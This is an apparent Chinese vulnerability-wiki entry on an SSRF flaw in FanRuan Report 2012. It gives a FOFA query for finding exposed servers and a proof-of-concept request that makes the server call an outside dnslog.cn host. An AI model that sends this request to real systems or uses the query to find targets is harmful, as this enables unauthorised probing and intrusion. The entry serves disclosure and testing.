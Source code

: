 # 帆软报表 2012 SSRF漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取造成SSRF

## 漏洞影响

> [!NOTE]
>
> 帆软报表 2012

## FOFA

> [!NOTE]
>
> body="down.download?FM_SYS_ID"

## 漏洞复现

漏洞验证Url为

```
/ReportServer?op=resource&resource=0m0m6k.dnslog.cn
```

![](http://wikioss.peiqi.tech/vuln/fan-10.png)